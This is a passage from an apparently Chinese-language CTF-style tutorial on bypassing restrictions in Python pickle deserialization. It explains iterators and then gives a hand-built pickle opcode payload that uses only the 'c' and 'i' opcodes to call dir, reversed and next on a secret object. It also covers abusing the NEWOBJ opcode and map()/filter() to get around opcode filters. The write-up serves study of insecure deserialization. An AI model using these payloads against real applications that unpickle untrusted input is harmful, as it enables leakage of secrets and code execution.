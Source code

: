 6. 生成器表达式

   ：

   - `(x*x for x in range(5))`

7. 其他内置可迭代对象：

   - enumerate 对象 (`enumerate(list)`)
   - zip 对象 (`zip(list1, list2)`)
   - reversed 对象 (`reversed(list)`)

只要一个对象实现了 `__iter__()` 方法且该方法返回一个迭代器对象，那么这个对象就被认为是可迭代的。在Python中，可以使用 `isinstance(obj, collections.abc.Iterable)` 来检查一个对象是否是可迭代的。

具体的利用参照这个payload

```
next(dir(sys.modules['os']))
 TypeError: 'list' object is not an iterator
#如果直接运行这个的话会抛出一个TypeError: 'list' object is not an iterator
#原因是虽然list是可迭代的,但是他并不是一个迭代器,他并没有__call__函数
>>> next(iter(dir(sys.modules['os'])))
'DirEntry'
#这才是正确的payload
#如果想倒着遍历这个列表的话,可以使用reversed()这个函数
>>> next(reversed(dir(sys.modules['os'])))
'write'
```

直接手搓比用pker舒服多了

```
opcode=b"""(((c__main__
secret
i__builtins__
dir
i__builtins__
reversed
i__builtins__
next
."""
```

只用到了`c`和`i`,遥遥领先

##### 使用类的`__new__()`构造方法绕过

着重注意这个操作符

```
NEWOBJ = b'\x81'#(这个很有用)  #从栈中弹出两次变量,第一次弹出的变量记为var1,第二次弹出的变量记为var2,然后就会通过cls.__new__(var2, *var1)生成实例化对象,然后将生成的对象压栈
```

他是可以触发类的`__new__()`函数的,所以在某些时候可以寻找可用的`__new__()`方法进行绕过.在下一个方法中,我们正是用了这一点才代替`__next__()`方法进行迭代.

##### 使用`map()`,`filter()`函数绕过
